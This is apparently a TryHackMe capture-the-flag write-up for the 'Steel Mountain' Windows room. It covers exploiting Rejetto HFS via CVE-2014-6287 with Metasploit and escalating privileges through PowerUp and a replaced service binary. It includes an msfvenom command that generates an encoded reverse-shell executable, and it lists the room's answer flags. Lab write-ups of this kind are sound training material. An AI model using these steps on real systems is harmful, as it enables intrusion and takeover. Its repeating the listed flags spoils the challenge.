










# Steel Mountain — TryHackMe

  

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

## **Introduction**

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our [Kali Room](https://tryhackme.com/room/kali).

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

###### Answer the questions below

Deploy the machine.

Who is the employee of the month?
Bill Harper

## **Initial Access**

Now you have deployed the machine, lets get an initial shell!

###### Answer the questions below

Scan the machine with nmap. What is the other port running a web server on?
8080

Take a look at the other web server. What file server is running?
Rejetto HTTP File Server

What is the CVE number to exploit this file server?
2014-6287

Use Metasploit to get an initial shell. What is the user flag?
b04763b6fcf51fcd7c13abc7db4fd365

## **Privilege Escalation**

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

###### Answer the questions below

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an _unquoted service path_ vulnerability?
AdvancedSystemCareService9

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

**Note:** The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.  

What is the root flag?
cd C:\Users\Administrator\Desktop  
type root.txt
`9af5f314f57607c00fd09803a587db80`
---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/steel-mountain/)
